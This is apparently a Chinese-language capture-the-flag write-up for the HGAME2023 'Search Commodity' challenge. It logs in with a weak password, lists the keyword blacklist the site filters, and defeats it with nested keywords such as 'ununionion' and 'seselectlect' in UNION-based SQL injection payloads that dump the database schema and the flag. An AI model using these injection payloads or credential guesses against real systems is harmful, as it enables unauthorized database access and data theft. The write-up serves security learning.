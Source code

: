 # [HGAME2023]Search Commodity
![](<./img/Pasted image 20230201093828.png>)

![](<./img/Pasted image 20230201094021.png>)

这里是弱密码爆破

```
Username: user01
Password: admin123
```

```
/home
```

![](<./img/Pasted image 20230201094125.png>)

```
1
```

```
hard disk 1
```

```
2
```

```
toffee bag 3
```

```
0
```

```
Not Found 0
```

```
0select1
```

```
hard disk 1
```

推测存在字符串过滤

测试可得以下黑名单

```
select
union
from
or
where
database
<space>
<
>
=
/**/
```

因为只是常规的查找替换，可以通过套娃来绕过

```
0/*/**/*/ununionion/*/**/*/seselectlect/*/**/*/1,2,3
```

```
2 3
```

注入点为第二和第三列

套出数据库

```
0/*/**/*/ununionion/*/**/*/seselectlect/*/**/*/1,datadatabasebase(),3
```

```
se4rch 3
```

查询`se4rch`的表

```
0/*/**/*/ununionion/*/**/*/seselectlect/*/**/*/1,group_concat(table_name),3/*/**/*/frfromom/*/**/*/infoorrmation_schema.tables/*/**/*/whwhereere/*/**/*/table_schema/*/**/*/like/*/**/*/'se4rch'
```

```
5ecret15here,L1st,user1nf0 3
```

```
0/*/**/*/ununionion/*/**/*/seselectlect/*/**/*/1,group_concat(column_name),3/*/**/*/frfromom/*/**/*/infoorrmation_schema.columns/*/**/*/whwhereere/*/**/*/table_name/*/**/*/like/*/**/*/'5ecret15here'
```

```
f14gggg1shere 3
```

```
0/*/**/*/ununionion/*/**/*/seselectlect/*/**/*/1,group_concat(f14gggg1shere),3/*/**/*/frfromom/*/**/*/se4rch.5ecret15here
```

```
hgame{4_M4n_WH0_Kn0ws_We4k-P4ssW0rd_And_SQL!} 3
```
